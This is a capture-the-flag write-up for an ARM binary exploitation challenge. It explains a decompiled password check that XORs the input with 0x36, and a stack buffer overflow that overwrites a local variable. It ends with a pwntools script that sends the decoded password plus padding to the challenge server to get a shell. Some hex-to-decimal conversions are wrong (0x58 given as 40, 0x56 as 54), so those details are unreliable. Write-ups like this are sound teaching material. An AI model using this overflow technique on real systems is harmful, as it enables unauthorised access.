

**Aarchbuild Write-Up**

This challenge was the first pwn of the CTF, an ARM one. We were given a binary file. Let's put it into GHIDRA, to see the output of the decompiler and understand the code.


The code in C is pretty easy to understand. First of all, it defined three variables, an array and two other integers. It asks us for a password, and fgets it but with a size that equals 0x58 so 40 in base10. It will allow us a nice overflow. Then, it creates a variable with the length of the password I guess (0xd == 13 in base10). It will finally xor our input with 0x36, that is 54 in base10; and then compare our input to the address defined at the beginning of the program to see if the value has changed. As the value of local_4 is defined before our array variable, we can overflow local_4, as the array that we will fill with a buffer will change the value of local_4. Indeed, as I can input 40 chars, the payload will have this form: password + buffer -> local_4 overflow (if buffer = 40 - 13 = 27 chars, local_4 var will equal 0x41414141). To exploit its vulnerability, I created a simple python program:

```
from pwn import *

r = remote('challenges.ecsc-teamfrance.fr', 4005)

#compute the good password for the check
strings = "eCfSDFwEeAYDr"
passwd = [ord(i) for i in strings]
#print(passwd)

flag = [chr(i ^ 54) for i in passwd] #int(0x56) = 54
r.recvuntil('Please enter your password:')

#just overflow the var to enter in debug mode

flag = ''.join(flag)
flag += 'A'*40
r.sendline(flag)
r.interactive()
```

As you see in the screenshot below, we will be in debug mode (have a shell) and will be able to print the flag:

